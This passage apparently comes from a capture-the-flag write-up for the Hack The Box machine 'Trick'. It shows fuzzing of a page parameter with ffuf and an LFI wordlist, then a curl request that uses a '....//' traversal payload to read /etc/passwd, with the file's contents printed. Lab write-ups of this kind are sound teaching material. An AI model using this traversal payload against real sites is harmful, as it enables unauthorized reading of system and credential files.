 ```jsx
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}

```

if the file we see another subdomain 

preprod-marketing.trick.htb

## ENUMERATING WEBSITE

![image](https://github.com/user-attachments/assets/5705830c-4390-4279-b0f1-748a69a40e2b)


We see the site is loading the page dynamically, we can check for file read or local file inclusion

```jsx
➜  trick ffuf -u http://preprod-marketing.trick.htb/index.php\?page\=FUZZ -ic -c -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://preprod-marketing.trick.htb/index.php?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42, Duration
```

```jsx
#curl http://preprod-marketing.trick.htb/index.php\?page\=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd            

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```